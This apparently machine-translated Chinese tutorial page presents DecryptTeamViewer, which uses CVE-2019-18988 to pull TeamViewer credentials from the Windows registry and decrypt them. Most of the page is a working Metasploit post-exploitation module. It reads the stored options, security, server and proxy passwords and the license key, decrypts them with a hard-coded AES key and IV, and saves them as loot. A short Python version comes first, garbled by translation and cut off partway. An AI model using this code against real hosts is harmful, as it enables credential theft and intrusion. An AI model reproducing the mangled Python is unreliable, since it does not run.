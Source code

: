 # DecryptTeamViewer:从 Windows 注册表枚举和解密 TeamViewer 凭据

> 原文：<https://kalilinuxtutorials.com/decryptteamviewer/>

[![DecryptTeamViewer : Enumerate & Decrypt TeamViewer Credentials From Windows Registry](img/28a54e48e735d91aa7a73dd97ec44f86.png "DecryptTeamViewer : Enumerate & Decrypt TeamViewer Credentials From Windows Registry")](https://1.bp.blogspot.com/-ZgWW4O5432U/Xk1ecnQJNeI/AAAAAAAAFBg/6dzEcq5u2DYncmv00krxy_35NBPKSpFQwCLcBGAsYHQ/s1600/DecryptTeamViewer%25281%2529.png)

**DecryptTeamViewer** 使用 CVE-2019-18988 来枚举和解密来自 Windows 注册表的 TeamViewer 凭证。通过[点击此处](https://whynotsecurity.com/blog/teamviewer/)发布详述漏洞的博客。

请参见下面的 Python 实现，以及下面的 post metasploit 模块；

从 Crypto 导入 sys、hexdump、binascii
。Cipher 导入 AES

类 AES cipher:
def**init**(self，key):
self . key = key

def decrypt(self，iv，data):
self . cipher = AES . new(self . key，AES。MODE_CBC，iv)
return self . cipher . decrypt(data)

key = binas CII . unhexlify(" 06020000005253413100040000 ")
iv = binas CII . unhexlify(" 0100010067244 f 436 e 6762 f 25 ea 8d 704 ")
hex _ str _ cipher = " d 699 解密(iv，密文)

打印(hex dump . hex dump(raw _ un))

密码= raw_un.decode('utf-16')
打印(密码)

**也可阅读-[CTF Tool:交互式 CTF 探索工具](https://kalilinuxtutorials.com/ctftool/)**

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
# @blurbdust based this code off of https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/gpp.rb
# and https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/enum_ms_product_keys.rb
##

class MetasploitModule < Msf::Post
  include Msf::Post::Windows::Registry

  def initialize(info={})
    super(update_info(info,
        'Name'          => 'Windows Gather TeamViewer Passwords',
        'Description'   => %q{ This module will find and decrypt stored TeamViewer keys },
        'License'       => MSF_LICENSE,
        'Author'        => [ 'Nic Losby <blurbdust[at]gmail.com>'],
        'Platform'      => [ 'win' ],
        'SessionTypes'  => [ 'meterpreter' ]
      ))
  end

  def app_list
    results = ""
    keys = [
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version8", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version9", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version10", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version11", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version12", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version13", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version14", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version15", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer", "Version" ],
      [ "HKLM\\SOFTWARE\\TeamViewer\\Temp", "SecurityPasswordExported" ],
      [ "HKLM\\SOFTWARE\\TeamViewer", "Version" ],
    ]

    keys.each do |keyx86|

      #parent key
      p = keyx86[0,1].join

      #child key
      c = keyx86[1,1].join

      key      = nil
      keychunk = registry_getvaldata(p, c)
      key      = keychunk.unpack("C*") if not keychunk.nil?

      optpass  = registry_getvaldata(p, "OptionsPasswordAES")
      secpass  = registry_getvaldata(p, "SecurityPasswordAES")
      secpasse = registry_getvaldata(p, "SecurityPasswordExported")
      servpass = registry_getvaldata(p, "ServerPasswordAES")
      proxpass = registry_getvaldata(p, "ProxyPasswordAES")
      license  = registry_getvaldata(p, "LicenseKeyAES")

      if not optpass.nil? 
        decvalue = decrypt(optpass)
        if not decvalue.nil?
          print_good("Found Options Password: #{decvalue}")
          results << "Options:#{decvalue}\n"
        end
      end
      if not secpass.nil? 
        decvalue = decrypt(secpass)
        if not decvalue.nil?
          print_good("Found Security Password: #{decvalue}")
          results << "Security:#{decvalue}\n"
        end
      end
      if not secpasse.nil? 
        decvalue = decrypt(secpasse)
        if not decvalue.nil?
          print_good("Found Security Password Exported: #{decvalue}")
          results << "SecurityE:#{decvalue}\n"
        end
      end
      if not servpass.nil? 
        decvalue = decrypt(servpass)
        if not decvalue.nil?
          print_good("Found Server Password: #{decvalue}")
          results << "Server:#{decvalue}\n"
        end
      end
      if not proxpass.nil? 
        decvalue = decrypt(proxpass)
        if not decvalue.nil?
          print_good("Found Proxy Password: #{decvalue}")
          results << "Proxy:#{decvalue}\n"
        end
      end
      if not license.nil? 
        decvalue = decrypt(license)
        if not decvalue.nil?
          print_good("Found License Key: #{decvalue}")
          results << "License:#{decvalue}\n"
        end
      end
    end

    #Only save data to disk when there's something in the table
    if not results.empty?
      path = store_loot("host.teamviewer_passwords", "text/plain", session, results, "teamviewer_passwords.txt", "TeamViewer Passwords")
      print_good("Passwords stored in: #{path.to_s}")
    end
  end

  def decrypt(encrypted_data)
    password = ""
    return password unless encrypted_data

    password = ""
    original_data = encrypted_data.dup

    decoded = encrypted_data
    #print_status(decoded)

    key = "\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    iv  = "\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    aes = OpenSSL::Cipher.new("AES-128-CBC")
    begin
      aes.decrypt
      aes.key = key
      aes.iv = iv
      plaintext = aes.update(decoded)
      password = Rex::Text.to_ascii(plaintext, 'utf-16le')
      if plaintext.empty?
        return nil
      end
    rescue OpenSSL::Cipher::CipherError => e
      puts "Unable to decode: \"#{encrypted_data}\" Exception: #{e}"
    end

    password
  end

  def run
    print_status("Finding TeamViewer Passwords on #{sysinfo['Computer']}")
    app_list
  end
end
```

[**Download**](https://github.com/V1V1/DecryptTeamViewer)